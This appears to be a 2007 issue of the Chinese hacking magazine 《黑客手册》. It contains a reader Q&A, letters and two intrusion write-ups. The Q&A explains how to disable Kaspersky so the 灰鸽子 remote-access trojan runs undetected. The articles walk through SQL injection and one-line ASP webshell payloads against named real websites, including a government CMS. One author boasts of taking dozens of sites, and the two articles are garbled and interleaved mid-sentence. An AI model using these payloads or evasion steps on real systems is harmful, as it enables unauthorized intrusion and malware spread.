**Q：问一下关于虚拟机的问题，我想通过 VMware 安装一个虚拟操作系统，可是我的光驱早就光荣下岗。最郁闷的是，机箱锁死了打不开，这样就无法更换光驱了，有没有不用光驱安装虚拟系统的方法啊？**

**A：** 我给一个朋友安装虚拟机的时候也遇到该问题，虽然 VPC 支持镜像文件安装，但是功能却不敢恭维，最后无意发现他安装了 Daemon Tools 虚拟光驱，于是尝试载入一个系统的镜像文件，然后通过 VMware 安装居然成功。如果你有条件可以到网上下载一个系统的镜像文件，然后载入到虚拟光驱后，使用 VM 完全可以正常安装。

**Q：为什么安装卡巴以后再运行灰鸽子会出现灰鸽子遇到问题需要关闭啊？我把卡巴已经停止保护了啊！等我把卡巴卸了以后再运行又好了，为什么？**

**A：** 你可能是小看杀毒软件的能力了，因为大多数杀毒软件，包括卡巴和 NOD32 等，如果在监控过程中发现有可疑病毒写入就会尝试终止，这个时候你的行为已经被列入到黑名单，即使你关闭了卡巴的监控它仍会禁止你写入文件。

其实解决的方法很简单，不需要卸载卡巴斯基。关闭文件监控后，卡巴还有一个进程起保护作用，主要对一些恶意病毒破坏起终止作用，该进程无法结束，可以通过运行 `services.msc` 打开服务管理后，把卡巴的服务禁用。重新启动后就可以正常使用灰鸽子，你最好把灰鸽子所在目录设置为排除文件夹，这样以后使用起来就不会被查杀了。

**Q：有个很奇怪的问题请教啦！我的机器重装系统后老是自动重启，不知道为什么？它隔段时间重启一次，有时开了一天又不重启，有时刚开机就重启，一直没有找到原因。**

**A：** 你的问题我通过百度搜索“系统重启 解决”可以发现导致该问题的原因非常之多，你可以参考这几个页面对比实际情况来解决你的问题：
http://zhidao.baidu.com/question/4645956.html
http://blog.sina.com.cn/u/4a35e324010004wt
http://hi.baidu.com/422982/blog/item/e5677fd9990926e939012fa0.html
个人认为你的这种突发症状更可能的原因是中了熊猫烧香变种等病毒，虽然重装系统，可是病毒还是通过感染过的其他盘符的文件而重新生成，建议使用专杀工具。
另外，电压不稳定也有可能导致这样的情况，我以前的住所就因为楼下的用户焊接而导致无法预测的重启，用稳压器或者协调别人改变线路可以解决这样的情况。

**Q：你好，我最近买了一个 MP4，到网吧去下了电影复制进去，播放的时候提示格式不合。我在网上搜索下载了一个转换格式的软件，可是转换很慢还有病毒，请问有没有更好的转换软件啊？**

**A：** 经过本人测试给你推荐“MP4/RM 转换专家”和“MP4视频转换通”，下载页面地址分别为：
http://www.skycn.com/soft/23851.html
http://download.zol.com.cn/detail/13/125336.shtml，均是国内大型网站，保证无毒可放心下载。

**Q：得到一个注入点，用明小子发现为啊 SA 权限，命令无法执行，上传文件无法成功，列目录也无法列出。这个网站为动网的 DV BBS 7.1 SP1，用明小子无法猜测到数据库的下载地址，找到一个管理后台叫做“conn.asp”，打开一看，什么都没有，上传页面倒是找到了，却写着“请登录后使用”，这应该就是有注入点，也就是我找到的那个注入点！天啊，前辈们，遇到这样的情况你们会怎么办啊？难道放弃吗？**

**A：** 明小子的注入功能的确不好用，经常会出现错误判断，你可以使用呀D来检测一下该地址是否为注入点。首先纠正一下你的错误，conn.asp 是数据库连接文件，打开后肯定是空白。上传页面不可能存在注入，如果肯定是注入点而无法使用 SQL 的扩展功能，建议你使用 so select shell injector 这款工具，它是利用特定的注入条件通过 access 调用的一个 vbsshell 函数来执行 system 命令，可以结合你的 SQL 权限来达到提权目的。

**Q：我利用 SQL 注入得到了管理员的用户和密码，可是登录后台却发现验证码输入处无法显示，一直是个红叉。我发给几个朋友，有的能打开有的不能打开，请问怎么解决？**

**A：** 在访问某些需要填写验证码的地方无法显示验证码图片（显示为一个红色小叉），这是 SP2 的一个 Bug。解决办法为：运行“Regedit”命令打开注册表编辑器，依次定位到“[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\Security]”，在窗口右边新建一个名为“BlockXBM”的 REG_DWORD 值，将其值设置为“0”（十六进制值）。

**Q：我的系统中毒了，进程里有个 mswavp，杀毒软件杀不掉，有时候 CPU 占用比较高，怎么解决。**

**A：** 这个病毒会在系统 temp 目录下随机建立一个文件形成保护，所以杀毒软件无法终止。我们可以用 IceSword 先结束这两个文件，然后用智能杀毒助手等工具删除掉建立的服务。这个病毒还会在 system32 下建立 astream.dll 和 access.dll 文件。建议大家用超级网络巡警查杀这个程序，初步估计是间谍程序，只有网络巡警能完全查杀。

- 城市 / 江西省南昌市
- 论坛 ID / 密秘
- 邮件 / chenqq106030@163.com

# 对某篇文章的读后感

**文章名称：拉响国内排名前十名牌大学的网络警报**

读后感：太令人震惊了！不过有点意见：偶是湖北的，她却入侵了华科、武大、江汉大学等有那么多偶家乡的大学。不过好像没提到南昌大学，还是南昌大学好。不过完成那些操作还需要什么“桂林老兵的数据库浏览器”，偶是正正宗宗名副其实的菜鸟，对这些不太懂，虽然俺是学计算机的，但刚入门，不太了解，希望更通俗易懂。不过那几所大学的老大不知道怎样想我们的作者了，应该很死她了吧。希望那个作者是女生，给俺们争点光嘛！

**千年等一回的某编：** 不容易啊！学计算机的女生算是很少的了，更不要说对技术感兴趣了。这次有雌鸟入道，自然要大家牵引了，建议初学者多看看以前的《黑手》，资料丰富，内容详实。我们还会不定期推出大家感兴趣的技术图书教材，欢迎大家订购。

- 城市 / 重庆开县
- 论坛 ID / 无
- 邮件 / leizhen37@yahoo.com.cn

# 有什么建议和意见

因为我去年 12 月刚入伍，暂时不能实际操作，还需过段时间，那时候可能会进一步去其它部队学习计算机。当兵之前，除了吃饭，大部分时间都在电脑前，根本没闲心看书，现在不同了，在部队里，上网机会极少，只好靠看书。上周上街回来在书店看到《黑客手册》，很感兴趣，也比较适合我，所以买下来了。回到部队很快就看完了，评价只有两个字：很好！

**向部队致敬的老编：** 一直以来发现，我们的军事力量还是很强大的嘛！部队的信息安全迫在眉睫，新时代的战争攻防都依靠着电脑网络的辅助分析及应用，希望我们的子弟兵们也能够完全数字化，信息化，掌握最新最牛的技术！

- 城市 / 湖南岳阳
- 论坛 ID / 412988668
- 邮件 / love412988668@qq.com

# 对某篇文章的读后感

文章名称：当 ARP 遇上社会工程学

读后感：由于鄙人天生对冗长的东西不感冒，所以简单、实用、经济、方便的社会工程学成了鄙人的最爱。但纯的社工当然不行，所以这类文章，偶都是特别喜欢！特别是此文，简短、精练，读后自己再琢磨一下，成功地消化了这篇文章，再动手实践一下，大呼过瘾。社工 + 技术的配合，结果总是出奇地好！

**研究社学的小编：** 小编我也是社学爱好者，这门学问的掌握非常有意思，需要很强的逻辑思维，而且要有一切天马行空的想象力。想别人所想，做别人所做，没有什么可能和不可能！记住偶师傅的一句经典：人，都是研究别人，和被别人研究的……

- 城市 / 湖北孝感
- 论坛 ID / 无
- 邮件 / 无

# 有什么建议和意见

很喜欢黑客，很喜欢 NOHACK。当我第一次了解到黑客，我就决定，我以后一定要成为一个黑漆漆的黑客。这个梦沉睡了几年，偶然拿到一本《黑客手册》，开始了我的黑梦。虽然我还很菜菜，但我要黑，我要变黑！我总会变黑的！

周围的人都不了解黑客，以为黑客就是破坏，就是小偷强盗，我总会跟他们解释，甚至争得面红耳赤。好想要一件“黑”衣，让我去更自豪，更自信地宣传黑客。

最后感谢 NOHACK，最想说的，虽然我现在只是一个小黑，但将来，也许是几年，我会闯出自己的天下！——某小黑

原生态黑编：黑客不是破坏，只是想不受限制而自由地共享而已。网络是无限的，但为什么这么多的网站系统程序就不能人性化一点，多增加点权限，让任何访客都可以自己定义 ID 而进行实用功能的操作呢？我不喜欢注册啊，那就只有去破了……

- 城市 / 河北石家庄
- 论坛 ID / zwl4488
- 邮件 / pigdogandme@gmail.com

# 有什么建议和意见

在 hack 过程中，很多成功的入侵都有“运气”成份，而恰恰是这些特殊情况，让菜鸟们无计可施。希望高手们在撰写文章时将如何处理这些特殊情况以及如何应对“意外”也写进去，我想这样我们菜鸟会有更大的收获！

运气实在是不好的菜编：对于处理特殊情况，每个人都会有自己的一套逻辑思维方法。每个人所遇到问题时的各类条件不一样，相同的解决方法是不一定就能解决相同问题的。如果你有更多的经验，那么应对起相应的“意外”也就不成问题了。

- 城市 / 江苏省新沂市
- 论坛 ID / 无
- 邮件 / 无

# 有什么建议和意见

我很喜欢计算机技术，尤其是黑客技术。但在校园中，同学们都忙于学习，很难找到志同道合的朋友，只能一个人在夜间独自敲打着键盘，学习一些零散的技术。即使这样，也从中受益不少，可白天……

**随时鼓励大家的小编：** 白天可要好好上课……多翻阅《黑手》，不仅可以学习，还可以结交许多朋友哦！现在的黑客已经不再局限于单兵作战，团队的互相支持才是最强有力的后盾。

- 城市 / 泸州
- 论坛 ID / keyhand
- 邮件 / keyhand@163.com

# 有什么建议和意见

现在还在高中，还有 1 年就要“打战”了，能接触电脑的时间越来越少，上网实践的机会也在减少……还好有《黑手》看，这才好些。不过每月只有一本，搞得我只能慢慢地来，我这只小鸟还有点儿贪呢！！是不是 hack 在各方面都行呢？

**“只身”编辑：** 什么都行的是怪物啊！学好自己擅长的技术，发挥自己的想象创意，未来是要自己去描绘的……做什么事情都要一步一步地来，发展才是硬道理嘛！

- 城市 / 甘肃兰州
- 论坛 ID / KWS2008
- 邮件 / kws2YH@163.com

# 对某篇文章的读后感

文章名称：抓鸡宝典

读后感：这篇文章写得细，很容易上手，感觉学到了知识，没有白白浪费本人对《黑手》的一片激情。

抓鸡上瘾的菜编：反复不断地翻阅本刊，你将会不断领悟到新的知识。偶已经被读者支持的激情所感染，做好杂志是我们份内的事情，和我们一起上路，共同进步吧！

# 商业代码的致命伤——四通政府网站管理系统从失窃到 0day

> > 首语：最近喜欢听台湾星光选秀节目里杨宗纬的演唱，那是一种令人感动的声音。做黑客，最重要的不是感动，而是解脱。像林语堂说过的话，人没有责任的时候最幸福，当你一旦完成了某项工作，这项工作大功告成，放下了这项工作给你的责任，那一瞬间解脱的心情，我想是最快乐最幸福的吧！怎样才能实现这一切，网上那句名言告诉我们就是：你尽力了吗？

欧阳无敌 @[NUDT 安全应急小组]

- 从本文中你可以学到：
- 四通政府网站管理系统的一个漏洞的利用办法

最近接到上级的任务，说要帮纪委做网站，我也是外行，只好上网摸摸有些什么好的代码。我想，纪委的站自然不能太花哨，政府类的源代码是比较合适的，于是是在网上找了一套名叫四通政府网站管理系统的代码，足足 4M，总算拖回来了，调试了前台，十分满意，谁知道这是演示版，后台没有提供的，原来是商业的代码，最新版还得掏 3000 人民币。我一穷学生可负担不起，估计让纪委报销也没戏，那就只有动动歪脑子了。

由于手上有了前台代码，即便我把几个关键字上去 Google 了一下，没想到这系统相当普及，出了一大堆结果，随便挑了个气象局来示范，大家将就下吧，毕竟 gov 的站真的追究起来不是说笑的。

## 一、代码失窃引发的思考

面对这个站，我们的目标是 webshell，如何入手就不多说了，那些 SQL 注入大家都轻车熟路了。当时因为许多前台代码都经过 encode 加密过的，逐个解密分析寻找注入点十分费神，当然大家可以自己研究一下，现在都讲究效率了，当时为了偷懒就试了一下默认的数据库路径 Database/zf11.mdb，没想到数据库能下载，如图 1 所示。

不过也没什么大惊小怪的。我倒是质疑程序的设计者是不是别有用心，数据库就这样让人家给赤条条地下载，何况这是政府类的网站，此思考一。

有了数据库我们可以进后台了，因为里面的密码信息是经过了 MD5 加密后保存的，上网查询了一下这个散列原来是 lxj 的密码，以下便是后台的光景，如图 2 所示。

后台功能十分的强大，甚至连服务器进程的列举都有。我在不明白后台为什么连这功能也要提供，这不是明摆着让大家方便渗透下去么？此思考二。接下来我们看看如何上传 webshell。

我们点击系统设置的“基本设置”，如图 3。

为什么看这里呢？因为刚才打开数据库的时候发现里面只有两张表，那么像这些配置的信息是如何保存的呢？我们来看看 admin_set.asp 是怎么写的：

```asp
if action="ok" then
    zf11_Title = trim(Request.form("zf11_Title"))
    zf11_description = trim(Request.form("zf11_description"))
    zf11_http = trim(Request.form("zf11_http"))
    zf11_icp = trim(Request.form("zf11_icp"))
'以上是接受用户提交的设置参数并且设置赋值给变量
'…………省略…………
voteincdir = server.mappath("Include/setting.asp")
Const ForReading = 1, ForWriting = 2
set fs = CreateObject("Scripting.FileSystemObject")
set ts = fs.OpenTextFile(voteincdir, ForWriting, True)
'读写配置文件的操作
ts.Write ""
ts.Write "<"
ts.Write "%" & vbCrLf
ts.Write " zf11_title= """ & zf11_Title & """" & vbCrLf
ts.Write " zf11_description= """ & zf11_description & """" & vbCrLf
ts.Write " zf11_http= """ & zf11_http & """" & vbCrLf
ts.Write " zf11_icp= """ & zf11_icp & """" & vbCrLf
'未经过任何过滤直接写入文件
```

相信大家都看懂了其中的奥妙，是的，我们只需要把一句话木马写到 Include/setting.asp 里面就能拿下 webshell，具体怎但是官方到底是不是故意留下的后着，这就不得而知了。

其实目前很多商业代码做得都很业余，反观动易在这方面真的是用心做出了质量，我想跟大家说的是选用或者订购代码要谨慎，尤其像政府机关单位，不可能拿着纳税人的钱去采购一些虚有其表的东西。本文没什么技术含量，希望大家以法律为重，不要拿本文的方法去触犯国家的法律，切记！

> **编辑点评：**
作者利用程序的错误配置拿到了 webshell。不过作者没有写清楚在得到 webshell 之前是如何看到了 admin_set.asp 的源码，是下载的源码里有这个文件的。作者思考的一、二、三，都是有道理的，看这篇文章最高兴的应当是许多读者了，又多了一个轻易拿 webshell 的方法。

# 我是这样渗透“My 动力管理后台”的

天空一杯孩子

- 从本文中你可以学到：
- 一种新的 ACESS 备份得 webshell 的思路

# 一、我用“ ) and ( 1=1 ”来玩注入

首先是找注入点，我不太喜欢用工具去扫。到网站上瞎转，不知道是啥整站系统，看到一个公告栏，点进去一看，首先映入眼帘的是：

```
http://www.beijinglawyer.org.cn/access/Announce.asp?ChannelID=1&ID=5
```

好熟悉的面孔啊！赶紧在后面加了一个单引号回车，很遗憾，返回信息为：类型不匹配：'Clng'。看来这里没有注入的可能性了。但也不要太绝望，还没结束呢，在 ChannelID=1 后面加一个单引号试试看吧，提交：http://www.beijinglawyer.org.cn/access/Announce.asp?ChannelID=1'&ID=5，回车，太好了，返回了：

```
Microsoft JET Database Engine 错误 '80040e14'
字符串的语法错误，在查询表达式 'IsSelected=True and (ChannelID=0 or ChannelID=1')
and (ShowType=0 or ShowType=1) and ID=25 order by ID Desc' 中。
/Announce.asp, 行 19


```

看来没有仔细过滤喔，似乎可以注入的，但怎么构造呢？构造的语句不仅要实现在语句中间插入查询语句，并且要保证语句的完整性。经过短暂思考，如果将单引号换成 ) and ( 查询语句，查询表达式会变为：IsSelected=True and (ChannelID=0 or ChannelID=1) and (查询语句) and (ShowType=0 or ShowType=1)，语句就完整了，达到我们的目的了。

根据以往的经验，首先肯定要用 1=1 判断呀。我将 “ChannelID=1” 改为 “ChannelID=1) and ( 1=1”，也就是最终查询表达式句会变为 IsSelected=True and (ChannelID=0 or ChannelID=1) and (1=1) and (ShowType=0 or ShowType=1)，当然是成立的，如果没错的话，一定会正常返回。

我们先看看 Include/setting.asp 的结构，如图 4。
我们可以随便插入任意一个参数，我们回到后台看看，我们这样填写，如图 5。

我们在在线 QQ 那里加上：eval request("#"):q="（编辑提示：冒号是 asp 代码里的链接符号，可以把两句写在一行不用回车）,
点击设置就完成了，马上用海阳顶端木马的客户端连接一下 http://www.gzxqxj.com/include/setting.asp，如图 6 所示。
显然，整站的代码将暴露无遗，所谓的商业代码就这样轻松到手。

# 二、意外的 0day

好不容易把后台都搬回来了，突然对这商业的代码感兴趣了，因为一来是花钱买的东西安全性做得一定不错吧，于是看了一下代码，还是刚才的那个 admin_set.asp 惹的祸。我们留意下面的代码：

```
<!--#include file="include/setting.asp"-->
<!--#include file="include/Conn.asp"-->
<!--#include file="include/char.asp" -->
<!--#include FILE="Include/Function.asp"-->
<%CheckAdmin3%>
<%
 action =trim(Request("action"))


```

上面包含了四个文件，经过逐一排查，发现下面的那一行 <%CheckAdmin3%> 貌似验证用户登录的合法性检查语句犹如空气操作，竟然在以上四个包含文件中都没找到！！也就是说 admin_set.asp 这个文件是任何人能够访问的，实践证明了这一点，就算退出后台也能够直接访问这个文件！

要说上面的入侵全靠运气的话，那么这个漏洞可以让任何一个新手不费吹灰之力便能摧毁整个网站，拥有如此致命漏洞的系统凭什么敢叫卖 3000 大洋？凭什么充当政府的门户？此思考三。后来的引证才知道，原来官方站点也存在同样的问题，也是毫不费劲地拿下了，留个图 7 纪念吧。
的。提交：http://www.beijinglawyer.org.cn/access/Announce.asp?ChannelID=1) and (1=1&ID=5，回车，返回通告页面正常，如图 1 所示；再将 1=1 改成 1=2，提交：http://www.beijinglawyer.org.cn/access/Announce.asp?ChannelID=1) and (1=2&ID=5，返回的页面不同了，显示：“没有通告或找不到指定的通告”，如图 2 所示。

# 二、手工注入，拿下管理员密码

现在就可以开始手工注入了，好长时间没练练手了，都是工具把我们这些菜鸟惯的。不过转念一想，好像还没有哪种工具对内层的数据构造注入语句吧（注意编辑点评），把 1=1 改成我们的查询语句就行了，相信各位小菜都会吧，用了差不多二十分，得到了一个表名为 admin，三个列名分别是：ID，username，password，猜到用户名是 amtf，密码是经过 md5 加密的散列。MD5 我当然懒得去暴力破解了，交给了我们的 cmd5 在线查询吧。很幸运，在 www.cmd5.com 我查询到了原始密码。来到管理入口：http://www.beijinglawyer.org.cn/access/Admin_login.asp 填上用户名和密码，进去了，来到它的后台，如图 3 所示。

后来，用工具尝试着去猜解，发现是可以的，要把后面的 &id=5 去掉，再构造成："http://www.beijinglawyer.org.cn/access/Announce.asp?ChannelID=1) and (1=1"，填到注入点地址，啊 D 注入工具是可以进行注入的，比手工当然快多了，大家可以自己去试试。
# 三、上传 asp 木马受挫

现在通过后台才知道是 my 动力管理系统，而且还很老的，2004 年的版本，可惜我没玩过。我也没去找它的漏洞信息，直接开工去拿 webshell 吧（可不要像我呀，最好还是先去查查它的资料呀）。最常规的思路是：赶快找个地方，传一匹 asp 木马上去。很快就找到了几个，但是不允许上 asp、asa、cer 之类的文件，只能传图片文件。马上又想到了通过备份数据库的方法，来到备份数据的操作界面，竟然不需要数据库源地址，晕！如图 4 所示。
第一感觉是不能备份小马的，那怎么办咧？点一下备份，备份成功，不过值得欣慰的是，备份的数据库是 asa 的后缀名。嘿嘿，既然是 asa 的后缀，那就有办法了。办法当然是：我们可以插入一句话 asp 木马到当前数据库，通过备份数据库，拿到 webshell。马上开工吧，在“用户管理”栏目里添加一个管理员，用户名是：<%execute request("value")%>，添加成功，然后备份数据库，备份路径为 Databackup\2007-5-21.asa，用蓝屏大叔的一句话木马客户端连接，提交一匹大马上去，提交路径是 http://www.beijinglawyer.org.cn/access/Databackup/2007-5-26.asa，但是提交出错了，见图 5、6，返回：没有 SCRIPT 块缺少脚本关闭标记(%>), 看来这个数据库不像其他的数据库那样，里面肯定有些语句干扰了我们的一句话木马的执行。看来只有暂时结束了，接
下来是最精彩的部分。

# 四、失败是成功之母

回到寝室，用自己的电脑去下载了一个 “my 动力文章整站系统”，用 netbox 组建了一个运行环境。也来到了后台，这次我看到了一个上次没注意到的东西，“恢复数据库” 这个栏目，想了一会儿，又有了思路。

我的思路是：先将木马以图片格式传上去，然后通过恢复数据库功能，把当前数据库恢复成我们的 asp 木马，再通过备份数据库把它导出来，成为正常的 asa 文件，这样就可以得到我们的 asa 马了，呵呵。

为保险起见，先在本地做试验，在添加文章的栏目里上传 asp 木马 asp.jpg，得到相对路径为 UploadFiles/200752121146489.jpg，如图 7，然后进行“恢复数据库”，恢复成功，接着赶紧进行数据库备份，将小马导出去，可惜失败了，出现了错误：

```
Microsoft JET Database Engine '80004005'
不可识别的数据库格式 'D:\Program Files\NetBox 2.8
\Samples\WebServer\wwwroot\access\database\adsfkldfogowerj
nokfdslwejhd fsjhk.mdb'。
\wwwroot\access\inc\conn.asp, line 8。见图 8。
```


现在什么都做不了了，整个网站都不能打开了，如图 9 所示，看来数据库已经被我破坏掉了。看来此路不通，但我的这个想法是对的。

又想了想，如果通过抓取备份过程和恢复过程的数据包，然后再用 nc 来提交，这样不就 OK 了吗?但仔细想了想，应该不可能成功的，因为原理都是一样的。先不管那么多了，试一下就知道行不行。

开始试验，先将网站恢复好，打开 winsockexpert 汉化版，打开当前主页的进程，开始截获数据包，在后台先进行数据库备份，看到了截获的数据 2，另存为 2.txt，见图 10。


同理，接着正常恢复一下数据库，得到数据 1，见图 11，保存为 1.txt，然后按刚才的方法，把木马恢复成当前数据库（此后，我们就不能用后台管理界面进行操作了，因为数据库已经被破坏掉了），然后将备份的数据 2.txt 用 nc 提交一下，nc -vv 127.0.0.1 <D:\2.txt（相当于备份数据库的操作）

看一下怎样，根据 nc 返回的数据可知，失败了，见图 12。

# 四、使用空壳数据库，得到 webshell

正当很没办法时，突然想到，在备份后的 asa 文件由于存在语法错误不能执行，所以，只要将这些语句去掉就行了。用记事本打开数据库，查找“<% ”，真的找到了 <% loop <%，原来是它在捣乱，见图 13。


把它删掉，保存，可是数据库打不开了，是一种不可识别的数据格式，看来不能这么改。重新再来，用 access 打开完好无损的数据库，发现里面有一个<%No Down%>的表，见图14，将它删除后，再用记事本打开，果然找不到 <% 了。


现在又有清晰的思路了：先将本地数据库插入一句话木马，以图片格式上传到网站上，然后通过恢复数据库，将网站当前数据库恢复成我们修改过的数据库，这样网站就可以正常服务了，再备份数据库，导出为123.asa，这个asa文件不会出现语法错误的，可以用蓝屏大叔客户端，传一匹功能更强大的asp木马上去。

通过恢复数据库，将网站当前数据库恢复成我们修改过的数据库，这样网站就可以正常服务了，再备份数据库，导出为123.asa，这个asa文件不会出现语法错误的，可以用蓝屏大叔客户端，传一匹功能更强大的 asp 木马上去。

好的，离成功就差一步了！先在本地试验，但是要将一个修改过的数据库（1.5M）上传上去，怎么做啊？图片上传，只允许传 200k 以内的图片啊。

看来只有给数据库减肥了，经过试验，最后将数据库中大部分的表都删掉，只留下 admin 一个表，用这个数据库，网站还能正常工作，最关键是：它只有 116k，符合上传条件。


看我是如何做到的：

删掉其他的表以后，点击“工具”——>“数据库实用工具”——>“压缩和修复数据库”，重新修复以后，我们的数据库只有 116k 了，可以了，再在 admin 表中加入一句话木马<%execute request("value")%>，如图 15 所示。好了，只要将它传到网站上去就好了，就可以拿到 webshell 了（记住：必须得在删除大部分表后，执行数据库压缩和修复，要不然，它还是 1.5M 那么大）。

# 五、准备好刚才 116k 数据库、我的小 asp 木马，拿下这个站点的 webshell

进入后台，第一件事是备份数据库，主要是为了在入侵结束后，把网站恢复好。备份后的路径为 Databackup\2007-5-2.asa。接下来才是我们的重要部分，要小心操作，而且要动作迅速。上传我们修改过的 116K 数据库 123.jpg（重命名为 123.jpg 的）到网站，路径为 uploadthumbs/2007526152917527.jpg，如图 16 所示。

然后点击“恢复数据库”路径填写为 uploadthumbs/2007526152917527.jpg，点“恢复”，恢复成功！接着就进行数据库备份，点击“备份数据库”，看到没，在右边又出现了一后台登录页面，见图 17，输入用户名：admin，密码：admin888（这是 116k 的数据库中默认的），好了，又一次进去了。接下来进行备份数据库，备份的地址是 Databackup\2007-5-23.asa，见图 18。好了，一句话木马横空出世，备份成功。

先不忙着去用蓝屏大叔客户端去连接，做人要厚道，先把网站恢复正常吧。点击“恢复数据库”，路径填上 Databackup\2007-5-2.asa（就是刚才备份的网站数据库），好了，数据恢复成功，网站又恢复了以前的平静。不同的是，我马上就要拿到 webshell 了。用蓝屏大叔的客户端，提交路径为：http://www.beijinglawyer.org.cn/access/Databackup/2007-5-23.asa。

在下面粘贴好我的一个 asp 马，ok，提交，看到没，asp 小马的界面出现了，见图 19，接下来就是传一个大的 asp 木马上去，见图 20，文章到此也结束了。

后来才知道，这是一个很老的漏洞，但是用百度搜了一下，还有很多网站用这个版本的系统，很容易就拿下几十个站点。文章没什么高深的技术，但网上还有很多站点没有修补此漏洞，还是很有危害的。在此，只是想告诉各位小菜同行，在渗透的时候要善于动脑筋，活学活用，这样你才会真正体会到渗透的乐趣，呵呵。

> **编辑点评：**
作者的思路还是比较巧妙的，在无法自定义数据库路径的条件下，通过备份和恢复的反复操作得到了 webshell，最重要的是把原来的数据库的 admin 表结构保留了，使之后台的部分管理操作还可以使用。不过要注意的是，从文风和内容来看，作者似乎偏爱玩一些技巧但是忽视了一些基础的知识。像文章里提到“不过转念一想，好像还没有哪种工具对内层的数据构造注入语句吧”，就是很明显的例子，其实所有的工具都可以对内层的数据构造注入语句。像本文举的例子：http://www.beijinglawyer.org.cn/access/Announce.asp?ChannelID=1&ID=5，注入点在 ChannelID=1 这个内层参数上，我们颠倒一下变成 http://www.beijinglawyer.org.cn/access/Announce.asp?ID=5&ChannelID=1 就可以加入工具里了。动态程序接收的 url 参数是不分先后的，只要用 & 连接一下就可以了，不会引起原有程序什么改变的。

# 非安全·黑客手册

## 全国代理商电话

| 地区 | 电话 | 地区 | 电话 | 地区 | 电话 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 鞍山 | 0412-2218341 | 昆明 | 0871-4168505 | 宜昌 | 0717-6443827 |
| 包头 | 0472-4138751 | 兰州 | 0931-8514919 | 张家口 | 0313-2068200 |
| 保定 | 0312-2038408 | 柳州 | 0772-3111816 | 通化 | 0435-5086200 |
| 北京 | 010-65072885 | 南昌 | 0791-8592332 | 威海 | 0631-5202057 |
| 北京 | 010-65850057 | 南京 | 025-83328998 | 淄博 | 0533-2150683 |
| 沧州 | 0317-3015380 | 南宁 | 0771-2615676 | 上海 | 021-63760720 |
| 长春 | 0431-82700526 | 南通 | 0513-85501751 | 吉林 | 0432-6959591 6959592 |
| 常德·衡阳 | 0736-7389148 | 宁波 | 0574-87660206 | 郑州 | 0371-67647276 |
| 常州 | 0519-8105882 | 齐齐哈尔 | 0452-2683430 | 烟台 | 0535-2123857 |
| 成都 | 028-83226609 86730609 | 秦皇岛 | 0335-3691263 | 徐州 | 0516-83777678 |
| 大同 | 0352-2021603 | 青岛 | 0532-83848881 | 绵阳 | 0816-2233291 |
| 大连 | 0411-84600173 | 深圳 | 0775-82264081 | 苏州 | 0512-65188163 |
| 阜阳 | 0558-2271183 2233944 | 沈阳 | 024-23842760 05128709 | 长沙 | 0731-6562796 |
| 贵阳 | 0851-5984895 6819938 | 石家庄 | 0311-83029157 | 重庆 | 023-67051607 |
| 桂林 | 0773-2859586 | 太原 | 0351-7041968 | 任丘 | 0317-2254900 |
| 武汉 | 027-85493562 | 唐山 | 0315-2259572 | 银川 | 0951-6024121 6024322 |
| 杭州 | 0571-88256366 | 天津 | 022-27697711 | 广州 | 020-34296413 |
| 合肥 | 0551-2611465 7139358 | 乌鲁木齐 | 0991-5589830 | 北京 | 010-66010529 |
| 衡水 | 0318-7902322 | 无锡 | 0510-82722773 | 锦州 | 0416-2147390 |
| 济南 | 0531-82903395 | 西安 | 029-82100804 |  |  |
| 淮南 | 0554-6314707 | 邢台 | 0319-3090234 |  |  |

# 《黑客手册》系列产品

# 详见封三


## 2007全年杂志订阅有奖活动

- 一、订阅全年的《黑客手册》（12本），享受9折优惠，价格149元（含每期挂号），并赠送自由战士格瓦拉非安全专版书签1张+黑手中性笔1支
- 二、订阅半年的《黑客手册》（6本），享受9.5折优惠，价格78元（含每期挂号），并赠送自由战士格瓦拉非安全专版书签1张+黑手中性笔1支+黑色轨迹一本。

注意：

1、本优惠活动和其他优惠活动不能累加  
2、活动时间：2007年1月1日至2007年11月1日

## 金秋邮礼（买手册送好礼）

- 一、活动时间：2007年6月25日至11月25日
- 二、活动形式：邮购

凡在活动期间，一次性邮购《黑客手册》15本者均可获赠运动水壶一个。  
凡在活动期间，一次性邮购《黑客手册》5本者均可获赠黑手中性笔一支。  
凡在活动期间，一次性邮购《黑客手册》3本者均可获赠黑色轨迹一本。

四、注意事项：邮购杂志，多邮多赠，数量有限，赠完即止。邮费+挂号费全部由我们承担，邮购清单中请注明所需礼品名称，未注明者，将视为不参加此活动。

## 《黑客手册》已出产品简要

2005年全年共8本  
05年4月至12月 每册定价：8.8元 标准16开本  
注意：其中7、8月为合辑

2006年全年共12本  
改版前→1月至7月7本 每册定价：8.8元 标准16开本  
改版后→8月至12月5本 每册定价：10.8元 大16开本

2007年已经出版9本  
2007年1月→2007年9月  
每册定价：10.8元 大16开本

邮局邮购方式  
邮编：100043  
地址：北京市石景山区100043-29信箱  
收款人：王永梅

## [中国农业银行北京市分行] 划帐方式

农行金穗卡：9559980014330597718 王永梅

## [中国交通银行北京市分行] 划帐方式

太平洋卡号：60142869911797609 王永梅

## [中国工商银行北京市分行] 划帐方式

牡丹灵通卡：9558800200202019473 王永梅

如果是通过银行转帐，请发电子邮件至hope_wym@sina.com。在邮件中写明从哪个城市划帐的，什么时间段划的。并写好详细的通讯地址，以便及时给你邮寄图书。邮购咨询电话：010-81215606。

[注意：我们所有产品均免邮费，只需要付产品本身标注的价格即可。如《黑客手册》定价10.8元，则只需汇10.8元。如果担心丢失，建议加挂号费3元，3本以上挂号费由我们出！]